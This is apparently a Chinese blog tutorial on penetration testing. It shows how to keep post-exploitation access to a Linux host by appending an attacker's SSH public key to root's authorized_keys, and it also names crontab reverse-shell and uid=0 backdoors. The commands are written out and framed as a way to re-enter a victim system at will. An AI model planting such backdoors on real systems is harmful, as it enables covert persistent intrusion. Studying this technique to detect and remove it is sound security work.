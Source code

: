 # 渗透测试|Linux下的ssh免密登录后门

[TRY](https://www.nctry.com/1500.html) 2020-02-26 2,848 [7](https://www.nctry.com/1500.html#comments)

# 后代人的权利远比当代人的欲望更重要。

来自：一言

var xhr = new XMLHttpRequest(); xhr.open('get', 'https://v1.hitokoto.cn/'); xhr.onreadystatechange = function () { if (xhr.readyState === 4) { var data = JSON.parse(xhr.responseText); var hitokoto = document.getElementById('hitokoto'); hitokoto.innerText = data.hitokoto; } } xhr.send();

## 前言

相信大家在做渗透测试的时候，会遇到后渗透阶段的权限维持问题，常见的linux后门有crontab后门（在计划任务里添加反弹shell任务），超级用户后门（也就是uid=0的用户），ssh免密登录后门等等等~~~![](img/Linux下的ssh免密登录后门/5.png)，当然你有能力的话，可以试试破解root密码~~这里我就详细的教大家如何利用ssh后门和计划任务后门（下次讲，这次懒得写了~）进行权限维持。（以下内容适合小白观看，大佬勿喷![](img/Linux下的ssh免密登录后门/3.png)）

[![渗透测试|Linux下的ssh免密登录后门](img/Linux下的ssh免密登录后门/20200225_151605_51.jpg)](http://www.nctry.com/wp-content/uploads/2020/02/20200225_151605_51.jpg)

## 情景模拟

让我们假设一下，你已经通过目标主机的漏洞成功拿到了shell![](img/Linux下的ssh免密登录后门/36.png)，但是可能这个漏洞不知道什么时候就会被管理员修复，你也不知道root权限的密码，那咋办嘛？![](img/Linux下的ssh免密登录后门/61.png)哭？![](img/Linux下的ssh免密登录后门/15.png)寻找新的漏洞？![](img/Linux下的ssh免密登录后门/19.png)，当然不用这么麻烦，所以我们需要给目标主机留个后门，方便自己随时日进对方系统~

环境如下：

攻击机（本机）：kali    ip: 1.1.2.3

目标机：ubuntu   ip: 1.1.2.5

[![渗透测试|Linux下的ssh免密登录后门](img/Linux下的ssh免密登录后门/20200225_152447_11.gif)](http://www.nctry.com/wp-content/uploads/2020/02/20200225_152447_11.gif)

## ssh免密登录后门

ssh免密登录就是在自己的攻击机上生成一个密钥，然后把他放进目标主机的ssh密钥存放文件里（个人理解~），然后攻击机就可以拿着这个密钥直接连接目标主机了，不需要密码，当然后门嘛，还是会有被发现的风险的~

1.在kali（自己的服务器）上生成密钥

Shell

1. ssh\-keygen \-b 4096 \-t rsa #直接三个回车搞定

复制 文本 高亮

[![渗透测试|Linux下的ssh免密登录后门](img/Linux下的ssh免密登录后门/20200225_160619_88.jpg)](http://www.nctry.com/wp-content/uploads/2020/02/20200225_160619_88.jpg)

2.查看一下生成的密钥

[![渗透测试|Linux下的ssh免密登录后门](img/Linux下的ssh免密登录后门/20200225_160641_35.jpg)](http://www.nctry.com/wp-content/uploads/2020/02/20200225_160641_35.jpg)

3.将密钥里的内容全部复制，注意是全部！然后复制到目标服务端的`authorized_keys`中，命令如下

注意：是在你需要留后门的主机上执行以下命令！

Shell

1. echo "你自己的密钥内容"\>>/root/.ssh/authorized\_keys #两个>>表示追加在文件后面
2. chmod 600 ~/.ssh/authorized\_keys #编辑完成后还得修改权限
3. chmod 700 ~/.ssh

复制 文本 高亮

详细操作可看下图：

[![渗透测试|Linux下的ssh免密登录后门](img/Linux下的ssh免密登录后门/20200225_161125_29.jpg)](http://www.nctry.com/wp-content/uploads/2020/02/20200225_161125_29.jpg)

4.在攻击机上使用免密登录测试

Shell

1. ssh \-i /root/.ssh/id\_rsa root@目标ip

复制 文本 高亮

测试截图如下：

[![渗透测试|Linux下的ssh免密登录后门](img/Linux下的ssh免密登录后门/20200225_161300_80.gif)](http://www.nctry.com/wp-content/uploads/2020/02/20200225_161300_80.gif)

可以看到不用密码就直接进入了目标服务器，好了时间也不早了，今天的教程到这里就结束了，下次再分享crontab计划任务后门。![](img/Linux下的ssh免密登录后门/33.png)

PS：本站只是分享技术，切勿进行违法操作，纯手打，希望转载表明出处，谢谢。

有趣提示：后门还是有被发现的风险哦。



参考：

https://www.nctry.com/?s=ssh%E5%85%8D%E5%AF%86